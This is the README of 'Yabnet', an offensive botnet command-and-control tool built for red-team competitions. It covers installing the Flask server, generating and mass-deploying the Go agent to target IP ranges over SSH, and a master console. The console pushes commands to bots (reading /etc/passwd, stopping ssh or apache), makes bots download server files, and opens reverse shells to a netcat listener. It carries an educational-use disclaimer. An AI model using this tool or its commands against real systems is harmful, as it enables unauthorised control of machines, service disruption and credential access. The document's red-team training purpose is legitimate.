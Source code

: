 # Yabnet
Yet Another Botnet, PoC created for educational purposes only.
Yabnet is a HTTP based C2 server and agent that was designed, created, and intended to be used in an academic Attack/Defense competition environment. 

Yabnet server is written in Python3++ Flask, deployed in docker. Yabnet agent is written in Golang.

From setting up the server, freezing the agent, and distributing the agent to the target machine, yabnet aims to work out-of-the-box. That way, the red teamers could focus on more important stuffs, such as persistence. 

## Disclaimer
Yabnet is a proof of concept tool which was only created for educational purposes in classroom and cybersecurity related competitions. This tool is not created, nor is good enough for any real world usage. I do not condone use of this tool anything other than educational purposes. Using any of the files of yabnet in/against a system that you do not own is illegal, and you will get caught.

## Under Construction - TODO 
-----------

**Yabnet is currently under construction.**
- [x] Dockerize server 
- [x] Create agent in `golang`, instead of using python 
- [x] Support windows for agent 
- [ ] Clean up debugging codes in all files 
- [ ] Finalize and structure all in-code comments 
- [x] Enhance README documentation and usage 
- [ ] Support communicating with PWNBOARD 


## Installation 

**Yabnet requires python3.7++, GOLANG, and docker**

**Due to laziness, yabnet currently requires to be installed in the /opt directory.**

Install Golang if it is not installed. 

```
cd /opt
git clone https://github.com/choisg/yabnet.git
cd /opt/yabnet
chmod +x install.sh
./install.sh
```

## Components 

**Server and Agent**

Server = Python flask application inside Docker container 

Agent = Golang based static executable 

**Utility scripts** 

`/yabnet/agent/generator.py` = Python script which creates agent golang file with specified server IP address and port number 

`/yabnet/agent/competition_deployer.py` = Python script which helps to distribute and drops agent file to specific range of IP addresses via SSH

## Installation 

### Server setup - Docker
```
cd /opt/yabnet/server
docker build -t yabnet .
docker run -e USER=<username> -e PASS=<password> -e MASTERKEY=<masterkey> -p 5000:5000 yabnet 

(Example: docker run -e USER=admin -e PASS=password -e MASTERKEY=masterkey -p 5000:5000 yabnet )
```

### Agent setup - Golang 

**Generating Agent through terminal**

```
# Create executable with generator script
python3 /opt/yabnet/agent/generator.py -i <serverip> -p <port> -f
# Verfiy the executable was created 
file /opt/yabnet/agent/agent
```

**Generating Agent through master console**
```
python3 /opt/yabnet/master/master.py
Yabnet>> generate -i <serverip> -p <serverport> -f 
```

**Transfer the agent file** 

Transfer `/opt/yabnet/agent/agent` to the target machine and run it.

Feel free to change the name of the executable. 

### Master setup

Use the credential that was passed through the `docker run` command for the server. 

```
python3 /opt/yabnet/master/master.py
Yabnet>> login -r localhost -u <user> -p <password>
Yabnet>> list

# By the way, all master console commands have help flag.
Yabnet>> push -h 
``` 


## Operation 

The master console has various commands that can be used for controlling the bots. 

**All commands have `-h` help flag**

| Command | Description | Examples | 
| --- | --- | --- |
| login | Login to the server as a master | `login -r 10.0.0.1 -u admin -p password` |
| list | List all currently registered bots | `list` |
| push | Push a command to bot(s) | `push -t <botip>,<botip> -c "cat /etc/passwd | grep backdoor"` | 
| download | Command a bot to download a file from the server | `download -t <botip> -f <server_file> -d <bot_filesystem_destination>` | 
| reverse | Command a bot to start a reverse shell back to server | `reverse -t <botip> -p <server_listening_port>` | 
| broadcast | Push a command to entire bots | `broadcast -c "systemctl stop ssh"` | 
| help | List all possible commands | `help` | 

**Notes** 
1. Specifying multiple targets with `,` comma separator is possible. 

`ex) push -t 10.0.1.1,10.0.2.1,10.0.3.1 -c "systemctl stop apache2"`


2. Reverse shell command requires the master to open a new console and setup a netcat listener. 

`ex) reverse -t 10.0.3.4 -p 31337` 

`ex) nc -lvnp 31337         // And then for the reverse shell from 10.0.3.4` 

3. The server is hosting files in `/opt/yabnet/server/uploads/` directory. 

## Demo
<insert youtubelink here>

## Special Thanks 
[NotoriousRebel](https://github.com/NotoriousRebel) - "Every red teamer should create their own C2"
